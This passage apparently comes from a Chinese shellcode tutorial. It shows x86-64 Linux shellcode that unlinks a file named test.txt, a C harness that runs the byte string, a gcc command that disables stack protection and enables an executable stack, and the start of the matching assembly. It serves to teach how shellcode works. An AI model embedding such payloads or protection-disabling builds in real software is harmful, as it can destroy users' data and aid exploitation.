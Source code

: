     char sh[]="\xeb\x0d\x6a\x57\x58\x5f\x0f\x05\x48"
            "\x31\xc0\xb0\x3c\x0f\x05\xe8\xee\xff"
            "\xff\xff\x74\x65\x73\x74\x2e\x74\x78\x74";


    void main(int argc, char **argv)
    {
            printf("Shellcode Length: %d\n", strlen (sh));
            int (*func)();
            func = (int (*)()) sh;
            (int)(*func)();
    }
    ```
- 在命令行下输入`gcc -fno-stack-protector -z execstack delete.c`。在同目录下新建test.txt，运行刚生成的可执行文件发现test.txt已被删除
  
  <img src="./img/linux-del.png">

- 汇编代码
    ```asm
    global _start
    section .text

    _start:
        jmp short _file

    delete:
        push 87             ;sys_unlink
        pop rax
        pop rdi             ;fname
        syscall
